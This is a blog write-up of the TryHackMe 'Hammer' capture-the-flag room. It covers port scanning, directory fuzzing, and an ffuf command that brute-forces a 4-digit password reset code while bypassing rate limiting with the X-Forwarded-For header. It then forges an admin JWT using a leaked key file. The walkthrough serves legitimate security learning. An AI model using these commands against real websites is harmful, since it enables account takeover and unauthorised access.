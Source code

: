 ```yaml
---
layout: post
title: Hammer Challenge
date: 2025-08-16 17:29 +0300
categories: [Challenge,THM]
tags: [Challenge,THM, write-up]
---
```


# Hammer

link: [https://tryhackme.com/room/hammer](https://tryhackme.com/room/hammer)

In this challenge we need to bypass authentication mechanisms on a website and get RCE.

## What is the flag value after logging in to the dashboard?
After starting the machine, I got the IP: `10.10.137.63`

First things first, let's do a simple `nmap` scan on that IP:
```console
> nmap -sS 10.10.137.63 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-16 10:43 EDT
Nmap scan report for 10.10.137.63
Host is up (0.078s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh

Nmap done: 1 IP address (1 host up) scanned in 1.48 seconds
```
but it looks like there is no web service that uses port 80, so we need to widen our search with a full port scan:
```console
> nmap -sS -O -sV -v -p- 10.10.137.63 
...
Nmap scan report for 10.10.137.63
Host is up (0.076s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
1337/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
Uptime guess: 5.601 days (since Sun Aug 10 20:25:45 2025)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=263 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

After a more thorough scan, we found a web service on port `1337`.\
So let's give `10.10.137.63:1337` a visit:

Note: For easier access, I added the machine's IP to /etc/hosts under the hostname `hammer.thm`.

![](https://i.imgur.com/fEGpFzZ.png)

We have a simple website with a login using email and password, and also a forgot password page.

The Reset Password page:
![](https://i.imgur.com/rGyAXou.png)

Giving the forgot password page a try with `test@test.com`
![](https://i.imgur.com/ShVEIxI.png)
So we need to find a user email we can attack.

Using the Dev Tools on the main page, we can see a note left by the developer that could help:
![](https://i.imgur.com/Oojh3i3.png)

With this knowledge, we can go to the next step and enumerate directories on the site:
```console
> ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -u http://10.10.137.63:1337/hmr_FUZZ

...

css                     [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 78ms]
images                  [Status: 301, Size: 324, Words: 20, Lines: 10, Duration: 77ms]
js                      [Status: 301, Size: 320, Words: 20, Lines: 10, Duration: 77ms]
logs                    [Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 76ms]
:: Progress: [4746/4746] :: Job [1/1] :: 376 req/sec :: Duration: [0:00:13] :: Errors: 0 ::
```

Let's visit the `http://10.10.137.63:1337/hmr_logs/` page to see if we can find anything useful:
![](https://i.imgur.com/Etw9ruJ.png)
![](https://i.imgur.com/9zpRuIQ.png)

Inside the logs, we found a user: `tester@hammer.thm`

Using this email on the reset password page shows that we need to enter a 4-digit recovery code to reset the password.

![](https://i.imgur.com/Qt52m3v.png)

We can generate all possible 4-digit codes from 0000-9999 using crunch:
```console
> crunch 4 4 0123456789 -o 4digit.txt
```
and brute-force the recovery code.
To do so, we need to see what a Submit code request looks like:

```
POST /reset_password.php HTTP/1.1

Host: 10.10.137.63:1337

...

Cookie: PHPSESSID=d1eke70g85ndlr4je3m1ighqra

...

recovery_code=1234&s=178
```

But before we can do that, there is another protection layer we need to address:
![](https://i.imgur.com/tUmAKa8.png)

There is a rate-limiting mechanism after too many failed attempts that we need to bypass.

using [HackTricks](https://book.hacktricks.wiki/en/pentesting-web/rate-limit-bypass.html) 
```
Manipulating IP Origin via Headers

Modifying headers to alter the perceived IP origin can help evade IP-based rate limiting. Headers such as X-Originating-IP, X-Forwarded-For, X-Remote-IP, X-Remote-Addr, X-Client-IP, X-Host, X-Forwared-Host, including using multiple instances of X-Forwarded-For, can be adjusted to simulate requests from different IPs.
```

In this case, `X-Forwarded-For` is the header that bypasses the rate limit (usually this header is supposed to be an IP, but setting anything in it resets the rate limit); using `ffuf` to brute-force the recovery code:

```
ffuf -w codes.txt -u "http://hammer.thm:1337/reset_password.php" -X "POST" -d "recovery_code=FUZZ&s=60" -H "Cookie: PHPSESSID=...." -H "X-Forwarded-For: FUZZ" -H "Content-Type: application/x-www-form-urlencoded" -fr "Invalid"
```
Command explanation:
```
-w: Wordlist file
-u: Target URL
-X: HTTP method to use
-d: POST data
-H: Header
-fr: Filter regexp 
```
Filling out the cookie and using the codes as the `X-Forwarded-For` header, I run the command to find the recovery code:
![](https://i.imgur.com/7ggPVYf.png)

The code is `3979`.\
Now let's use it to reset the password for the user:
![](https://i.imgur.com/XuFeBSP.png)
![](https://i.imgur.com/bSMeH8q.png)

After changing the password and logging into the account, we found the first flag:

![](https://i.imgur.com/GEoL5MS.jpeg)

🚩 First flag found! 🚩

## What is the content of the file /home/ubuntu/flag.txt?

After logging into the dashboard, we see a page that states our role: `user` and a command we can submit to run.

While playing around with the dashboard, something weird happened — we got logged out automatically. This is because of a script included with the dashboard:
![](https://i.imgur.com/UHCaJp7.png)

This happened because of a cookie `persistentSession` that is set for `Max-Age=20` (20 seconds), so using Burp Suite to help, we set this number higher so we have time to play around:

![](https://i.imgur.com/5UtY7XP.png)
![](https://i.imgur.com/o0p365Y.png)
![](https://i.imgur.com/pgiqUm1.png)

Using the command form, let's try to get the file `/home/ubuntu/flag.txt`:
![](https://i.imgur.com/vRp77vE.png)

Looks like there is a filter on commands we can use. Trying different methods of printing files, nothing seems to work — the only command we can use is `ls`, and we can see something interesting:
![](https://i.imgur.com/OkGUuTB.png)

there is a key file in the path we are currently in, so if we go to `http://hammer.thm:1337/188ade1.key` we can download it:

![](https://i.imgur.com/YKh7K12.png)

Also, we have a token; maybe we can forge one with higher privileges.\
Taking the token and decoding it:

![](https://i.imgur.com/qdLVQYs.png)

We can set the `kid` to the key we have at `/var/www/html/188ade1.key` and make our own JWT with the admin role so we can get the flag:

![](https://i.imgur.com/kZ0y7Rp.png)

now let's stop a request using burp and change the jwt token to the new one:

![](https://i.imgur.com/L9MThbG.png)

![](https://i.imgur.com/VHhTses.png)

🚩 Second flag found! 🚩